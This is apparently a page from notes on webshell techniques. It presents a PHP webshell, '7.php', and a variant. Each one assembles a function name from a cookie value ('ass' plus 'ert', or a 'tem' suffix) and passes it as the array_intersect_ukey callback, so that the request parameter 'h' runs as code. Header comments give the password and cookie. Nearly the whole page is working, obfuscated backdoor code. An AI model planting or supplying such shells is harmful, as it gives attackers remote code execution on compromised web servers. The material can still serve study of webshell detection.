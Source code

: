 #### 7.php

```php
# password: h
# Cookie: set-domain-name=ass
# PHP5>=5.4.0,PHP7
```

```php
<?php
	/**
	*Noticed:(PHP5>=5.4.0,PHP7)
	*
	*/
	$password="h";
	$ch=$_COOKIE["set-domain-name"];
	array_intersect_ukey(array($_REQUEST[$password]=>1),array(1),$ch."ert");
?>
```

```php
// test_7.php
<?php
	/**
	*Noticed:(PHP5>=5.4.0,PHP7)
	*
	*/
	$password="h";
	$ch=$_COOKIE["set-domain-name"];
	array_intersect_ukey(array($_REQUEST[$password]=>1),array(1),$ch."tem");
?>
```

![](webshell原理.assets/7.png)
